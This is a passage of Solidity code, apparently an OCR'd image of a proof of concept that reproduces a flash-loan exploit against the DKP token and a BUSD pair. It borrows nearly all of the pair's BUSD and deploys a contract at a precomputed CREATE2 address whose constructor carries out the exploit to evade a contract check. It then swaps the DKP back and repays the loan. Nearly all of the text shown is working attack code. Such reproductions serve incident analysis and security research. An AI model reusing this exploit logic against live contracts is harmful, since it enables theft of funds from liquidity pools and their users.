 ```solidity
        BUSD.transfer(calcultedAddress, 100 * 10 ** BUSD.decimals());
        RunAsNotContract c = new RunAsNotContract{salt: the_salt}(); // exploit in constructor
        assert(address(c) == calcultedAddress);

        emit log_named_decimal_uint(
            "DKP balance",
            DKP.balanceOf(address(this)),
            DKP.decimals()
        );

        //还贷款
        uint256 returnAmount = (flashAmount * 10_000) / 9975 + 1000;
        BUSD.transfer(address(Pair), returnAmount);
    }

    function caculateSwapAmount() private returns (uint256) {
        uint256 b = BUSD.balanceOf(address(Pair));
        emit log_named_decimal_uint("BUSD balance of Pair", b, BUSD.decimals());

        uint256 a = (b * 9992) / 10000; // 99.92 %
        emit log_named_decimal_uint("I will borrow out", a, BUSD.decimals());

        return a;
    }

    function calculteSpecialContractAddress() private view returns (address) {
        address predictedAddress = address(
            uint160(
                uint(
                    keccak256(
                        abi.encodePacked(
                            bytes1(0xff),
                            address(this),
                            the_salt,
                            keccak256(
                                abi.encodePacked(
                                    type(RunAsNotContract).creationCode
                                )
                            )
                        )
                    )
                )
            )
        );

        return predictedAddress;
    }

    function DKP2BUSD() private {
        DKP.approve(address(Router), type(uint256).max);
        address[] memory path = new address[](2);
        path[0] = address(DKP);
        path[1] = address(BUSD);
        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            DKP.balanceOf(address(this)),
            0,
            path,
            address(this),
            block.timestamp
        );
        DKP.approve(address(Router), 0);
    }
}
```